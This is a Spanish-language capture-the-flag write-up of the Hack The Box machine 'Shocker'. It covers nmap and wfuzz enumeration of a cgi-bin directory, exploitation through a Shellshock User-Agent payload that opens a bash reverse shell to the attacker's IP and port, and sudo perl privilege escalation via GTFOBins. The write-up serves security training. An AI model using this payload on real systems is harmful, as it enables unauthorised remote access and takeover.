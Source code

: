 
#  SHOCKER MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/1.png)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.56 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.56 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/3.png)

## EXPLOTACION

Vemos que tiene una pagina en el puerto 80 veamosla:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/4.png)

no hay algo interesante, vamos a fuzzear haber si encontramos un directorio, En este caso el mejor diccionario fue **/usr/share/dirb/wordlists/common.txt** porque nos reporte lo mejor posible, los diccionarios que siempre debes usar son:

```bash
/usr/share/dirb/wordlists/common.txt
/usr/share/wordlists/rockyou.txt
/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

```bash
wfuzz -c --hw=71 --hc=404 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/FUZZ
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/5.png)

vemos un directorio **cgi-bin** esto huele a ataque shell shock, si vemos esa ruta en el navegador no hay nada:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/6.png)

pero vamos a fuzzear ahora ese directorio pero vamos a colocar la extension.cgi a los archivos:

```bash
wfuzz -c --hw=71 --hc=404 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/cgi-bin/FUZZ.cgi
```

pero no reporto nada interesante:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/7.png)

vamos a intentar buscar con otras extensiones:

```bash
wfuzz -c -t 50 --hw=71 --hc=404 -w /usr/share/dirb/wordlists/common.txt extensiones.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/8.png)

ahora si mostro algo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/9.png)

si vamos a esa ruta se nos desacrga un archivo

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/10.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/11.png)

nada interesante, pero como esa ruta existe tocara interceptar con burp y jugar con el user agent:

capturamos la peticion a "http://10.10.10.56/cgi-bin/user.sh" y modificamos el user-agent con el siguiente payload de shellshock:

```bash
() { ignored;};/bin/bash -i >& /dev/tcp/10.10.14.16/4242 0>&1
```

nos colocamos en la escucha en netcat y mandamos la peticion y obtenemos una reverse shell:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/17.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/12.png)

podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/13.png)


## ELEVACION DE PRIVILEGIOS

veamos que puede ejecutar como sudo:

```bash
sudo -l
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/14.png)

vemos que puede ejecutar perl, vamos a buscar en [https://gtfobins.github.io/](https://gtfobins.github.io/).

encontramos lo siguiente si tenemos los permisos sudo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/15.png)

copiamos y lo ejecutamos, ahora somos root y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/16.png)

### NOTA

A la hora de escalar privilegios revisar siempre GTFOBins para permisos sudo  o SUID.